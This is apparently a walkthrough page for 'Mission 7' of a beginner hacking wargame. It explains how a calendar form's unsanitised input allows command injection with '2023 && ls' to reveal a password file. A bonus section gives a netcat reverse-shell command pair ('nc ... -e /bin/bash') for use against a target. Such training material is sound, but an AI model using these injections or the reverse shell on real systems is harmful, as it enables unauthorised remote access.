 # Mission 7

You only need to have some Linux basic command knowledge to crack this.

<details>
  <summary> Reveal Hint </summary>
  
  **Hint:** What you have to use is command injection method.
  
</details>

---

<details>
  <summary> Reveal Answer </summary>
  
  **Answer:** When you type in '2023', what happens behind the scene is that the underlying Linux system runs 'cal 2023' command, dump the output to cal.pl file, and redirect u to that file. Since it does not do any form of input sanitization, the command is directly executed. Therefore, if you type in '2023 && ls', the linux system will dump the output of 'cal' command and 'ls' command into cal.pl file. And, you will see the name of password file in that cal.pl file.

  **Note:** The truth is this form actually does some kinda filtering to only allow 'ls' command. Therefore, you will not see any output if you try other commands like 'whoami' or 'cat /etc/passwd'.
  
</details>

---

<details>
  <summary>Reveal Bonus Knowledge</summary>

  **Bonus Knowledge:** In real world situations, if you can perform command injection, you might be able to use other commands or make a reverse shell connection back to yourself. For example, run 'nc -nvlp 8000' on your PC and 'nc your_ip_address 8000 -e /bin/bash' on the target.

</details>

[<< Previous](../Mission%206/) &nbsp;&nbsp;|&nbsp;&nbsp; [Next >>](../Mission%208/)

